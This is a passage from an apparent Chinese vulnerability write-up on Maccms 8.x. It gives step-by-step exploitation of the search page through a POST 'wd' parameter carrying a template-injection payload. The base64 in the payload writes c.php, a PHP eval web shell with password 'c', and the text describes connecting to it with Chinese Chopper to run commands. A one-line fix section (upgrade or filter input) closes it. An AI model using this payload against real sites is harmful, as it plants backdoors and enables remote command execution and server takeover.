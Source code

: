 1.访问Maccms网站，进入search页面。

2.利用Firefox浏览器发送POST数据包或直接用Python编写脚本进行发送POST数据包

3.构造一句话木马payload：`wd={if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}`进行攻击，该payload是直接生成一个c.php一句话木马文件，连接密码为c。

![maccms](imgs/11.png)

4.菜刀或直接用Firefox连接一句话，执行命令。

![maccms](imgs/12.png)

## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Maccms8.x到最新版本，或手动添加规则过滤非法字符。
